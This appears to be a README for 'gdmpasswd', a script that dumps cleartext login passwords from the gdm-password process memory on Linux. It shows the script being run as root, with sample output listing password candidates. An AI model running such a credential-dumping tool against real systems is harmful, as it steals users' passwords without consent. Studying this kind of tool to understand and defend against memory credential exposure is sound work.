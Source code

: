 # gdmpasswd
Dumps potential cleartext passwords for the currently logged on user from the gdm-password process memory.

```
root@pwnd:~# ./gdmpasswd.sh 
          __                                               __ 
.-----.--|  |.--------.-----.---.-.-----.-----.--.--.--.--|  |
|  _  |  _  ||        |  _  |  _  |__ --|__ --|  |  |  |  _  |
|___  |_____||__|__|__|   __|___._|_____|_____|________|_____|
|_____|               |__|                                    

USERNAME: root 

PASSWORD CANDIDATES:

close
counts.User'
r00tP@ss!89
files
group
hosts
myhostname
netgroup
networks
passwd
protocols
publickey
services
shadow

root@pwnd:~# 

```

* Due to the where the correct password string ends up in memory, and its "near by" strings, it might not work every time.
